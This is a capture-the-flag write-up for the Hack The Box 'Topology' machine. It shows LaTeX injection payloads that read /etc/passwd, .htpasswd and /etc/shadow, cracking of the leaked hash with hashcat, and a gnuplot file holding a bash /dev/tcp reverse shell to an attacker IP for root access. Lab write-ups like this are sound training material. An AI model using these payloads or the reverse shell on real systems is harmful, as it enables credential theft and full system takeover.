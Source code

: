```yaml
---
slug: /write-up/htb/machines/easy/topology
pagination_next: null
pagination_prev: null
---
```


## Enumeration

Port 80 and 22 open

22
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

80
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Miskatonic University | Topology Group
```

Browsing the website, found this subdomain: http://latex.topology.htb/equation.php, it contains a form where you input Latex commands and a mechanism behind that generates a `png`.

Let's search for more subdomains with gobuster:

```bash
./gobuster vhost -u 10.10.11.217 -k --domain "topology.htb" --append-domain -w ~/workspace/gal/SecLists/Discovery/DNS/subdomains-top1million-5000.txt 
```

Found subdomains:
- dev.topology.htb
- stats.topology.htb

Most likely, the service works by writing the provided equation to a file, then invoke a command to pass from tex to png

In a log file we can see the following:

```
This is pdfTeX, Version 3.14159265-2.6-1.40.20 (TeX Live 2019/Debian) (preloaded format=pdflatex 2022.2.15)  12 MAR 2022 08:48
```

We see that we can inject commands in Latex, however there are some prohibitions in place:

Prohibited commands:
- `\input`
- `\include`
- `\verbatiminput`
- `\write\outfile{Hello-world}`
- `\immediate\write18{id > output}`

## Foothold

This payload works but only returns the first line:
```
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

There's another option to read files:

```tex
$\lstinputlisting{/etc/passwd}$
```

Here we can see the user `vdaisley`.

Knowing that we have scanned the vhost and found dev and see some `.htaccess` and `.htpasswd`, now we can download them with the previous discovered reading method.

```tex
$\lstinputlisting{"/var/www/dev/.htpasswd"}$
$\lstinputlisting{"/etc/shadow"}$
```

it will download the PNG image with the file contents, the password stored is a MD5 hash, which we can extract using tesseract:

```bash
tesseract exfil/equation.png exfil/equation.txt
```

Then crack the hash using hashcat:
```bash
hashcat hash.txt ~/workspace/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
This will return the password for user `vdaisley`, now you can SSH into the machine and get permanent access.

## Privilege escalation

In /opt we can find the `gnuplot` binary owned by root but with write and execution permissions for the user.

This binary is used to generate the images. We can try to see if it's execute by running ps aux multiple times.

If we don't see any result, it means the process is executed by another user. But don't worry, we can use [pspy](https://github.com/DominicBreuker/pspy) to monitor processes not belonging to our user.

And there we see root is executing the following command

```
2023/06/13 16:33:01 CMD: UID=0     PID=1419   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
```

So basically, gnuplot will execute any `plt` file found in /opt/gnuplot. 

Now what we can do is to create a plt file that will start a reverse shell with the user root.

e.g

```
system "bash -c 'bash -i >& /dev/tcp/10.10.14.151/4444 0>&1'"
```

Once the connection is established, we'll have `root` access in the console and we can read the flag.